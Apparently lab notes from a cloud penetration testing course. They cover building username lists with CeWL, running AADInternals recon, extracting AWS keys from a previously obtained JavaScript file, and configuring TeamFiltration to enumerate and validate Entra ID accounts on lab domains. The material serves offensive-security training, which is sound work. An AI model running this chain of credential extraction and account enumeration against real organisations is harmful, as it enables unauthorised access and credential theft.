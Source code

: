 **Construct a list of users**
```python
cat << EOF > /home/sec588/Coursefiles/workdir/users_temp1.txt
jerry.smith@sec588.org
jsmith@sec588.org
summer.smith@sec588.org
ssmith@sec588.org
tammy.gutterman@sec588.org
tgutterman@sec588.org
sleepy.gary@sec588.org
sgary@sec588.org
scary.terry@sec588.org
sterry@sec588.org
EOF
```

**Alertnatively, use "CeWL" to construct a username list and a general wordlist. Then combine these lists - YOU WILL NOT SEE OUTPUT OF COMMAND, FILES WILL BE WRITTEN OUT**
```python
docker run -it --rm -v "${PWD}:/host" cewl -e --email_file users_temp2.txt -w wordlist_temp.txt http://www.awesome-sparrow.sec588.cloud
```

AADInternals from Nestori Syynimaa. This tool is extremely feature-rich for Active Directory. At the same time, we do not introduce this tool in earnest to you. We will be using it for the reconnaissance of our domain only. There are some caveats of using this tool in Linux:

   - Not every feature will be supported.
   - It is not thoroughly tested in this build.

```python
Import-Module AADInternals
```
```python
Invoke-AADIntReconAsOutsider -Domain sec588.org | Format-Table
```

See if we can leverage our users.txt against the Entra ID System to validate which accounts are valid and which are not. You will need the uploader-service.json file from Lab 1.5

**Create AWS Access env var**
```python
AWSACCESS=$(cat /home/sec588/Coursefiles/workdir/uploader-service.js | grep AWS.config | tail -1 | awk -F\( '{ print $2 }' | awk -F\) '{ print $1 }' | awk -F\' '{ print $2 }') 
```

**Create AWS Key var**
```python
AWSKEY=$(cat /home/sec588/Coursefiles/workdir/uploader-service.js | grep AWS.config | tail -1 | awk -F\( '{ print $2 }' | awk -F\) '{ print $1 }' | awk -F\' '{ print $4 }')
```

**Output File Content**
```
cat << EOF > /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json
{
    "pushoverAppKey": "",
    "pushoverUserKey": "",
    "dehashedEmail" : "",
    "dehashedApiKey": "",
    "sacrificialO365Username": "summer@sec588.org",
    "sacrificialO365Passwords": "SnakeJazz2020" ,
    "proxyEndpoint": "http://127.0.0.1:8080",
    "AWSAccessKey": "$AWSACCESS",
    "AWSSecretKey": "$AWSKEY",
    "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Teams/1.3.00.30866 Chrome/80.0.3987.165 Electron/8.5.1 Safari/537.36",
    "AwsRegions":["us-east-1", "us-east-2"]
}
EOF
```

**Run the configured `teamfiltration` command in order to ensure that we have valid accounts**
```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --enum --validate-login --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --usernames /home/sec588/Coursefiles/workdir/users.txt
```

